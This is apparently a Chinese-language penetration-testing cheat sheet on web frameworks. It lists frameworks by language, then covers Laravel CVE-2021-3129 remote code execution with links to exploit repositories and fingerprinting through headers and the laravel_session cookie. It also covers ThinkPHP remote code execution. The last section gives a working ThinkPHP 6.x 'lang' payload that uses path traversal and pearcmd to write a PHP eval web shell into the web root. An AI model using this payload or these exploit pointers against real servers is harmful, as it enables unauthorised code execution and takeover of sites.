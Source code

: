 
---
# 常见语言开发框架

PHP：Thinkphp Laravel YII CodeIgniter CakePHP Zend等

JAVA：Spring MyBatis Hibernate Struts2 Springboot等

Python：Django Flask Bottle Turbobars Tornado Web2py等

Javascript：Vue.js Node.js Bootstrap JQuery Angular等

# 一、PHP

## 1、Laravel

Laravel是一套简洁、优雅的PHP Web开发框架(PHP Web Framework)。

1、CVE-2021-3129 RCE

Laravel <= 8.4.2

https://github.com/zhzyker/CVE-2021-3129

https://github.com/SecPros-Team/laravel-CVE-2021-3129-EXP

### 识别

 **1. 通过 HTTP 响应头**

Laravel 默认会在 HTTP 头部返回一些特征信息，例如：

- `X-Powered-By: PHP/<版本号>`（可间接表明 PHP 框架）
- `X-Frame-Options: SAMEORIGIN`
- `X-XSS-Protection: 1; mode=block`
- `X-Content-Type-Options: nosniff`
- `X-Powered-By: Laravel`（某些配置下可见）

 **2.识别 cookie**
Laravel 使用 `laravel_session` 作为默认的 `session` cookie 名称，例如
```
Set-Cookie: laravel_session=eyJpdiI6IkZxUkt...
```

## 2、Thinkphp

1、ThinkPHP是一套开源的、基于PHP的轻量级Web应用开发框架

Thinkphp-3.X RCE-6.X RCE
综合工具：武器库-Thinkphp专检（3-6版本）

2、6.X lang RCE
https://blog.csdn.net/weixin_54584489/article/details/130442887
```poc
??lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_REQUEST['xiao']);?>+/var/www/html/666.php
```
